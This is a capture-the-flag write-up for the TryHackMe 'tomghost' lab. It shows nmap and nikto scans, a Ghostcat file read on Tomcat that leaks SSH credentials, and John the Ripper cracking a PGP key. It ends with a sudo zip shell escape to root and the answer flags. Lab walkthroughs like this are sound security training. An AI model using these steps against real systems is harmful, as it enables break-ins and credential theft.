 # tomghost

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

```
ip = 10.10.204.127
```

## Nmap
```
nmap -sC -sV -oN initial.log 10.10.204.127
```

>22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
>
>53/tcp   open  tcpwrapped
>
>8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
>
>8080/tcp open  http       Apache Tomcat 9.0.30


## Task 1.

```
nikto -h http://10.10.204.127 | tee nikto.log
```

Looking at the `nmap` result I observe that the machine is running `Apache Tomcat 9.0.30` on port 8080. Looking for vulnerabilities on that I find the script `vulnerability.py`. Running it I obtain the user and the password to access via ssh.

```
  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>
```

With those credentials I access the machine and retreive the first flag from `/home/merlin/user.txt`. With this user I have no root permissions, I try to gain access to `merlin` user to check if he has. In order to achieve this I find two files in `/home/skyfuck` folder. I transfer both files to my machine and I examine them. One is a encrypted PGP file, the other one is its key but it has a password. In order to obtain acces to the key and retreive the contents of the file I use JohnThe Ripper.

```
/snap/john-the-ripper/current/run/gpg2john tryhackme.asc > hashes-for-john.txt

/snap/john-the-ripper/current/run/john --wordlist=/usr/share/wordlists/rockyou.txt hashes-for-john.txt

alexandru        (tryhackme) 
```
Once I have the password I can decrypt the file.

```
gpg --import tryhackme.asc

gpg --decrypt credential.pgp

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

Now with the credentials of `merlin` I connect using ssh. Investigating a bit I see that `merlin` can run with root privileges the `zip` binary. So, checking `https://gtfobins.github.io/gtfobins/zip/` I obtain root access and I finf the second key.

```
sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

## Questions

1. Compromise this machine and obtain user.txt
    >THM{GhostCat_1s_so_cr4sy}
2. Escalate privileges and obtain root.txt  
    >THM{Z1P_1S_FAKE}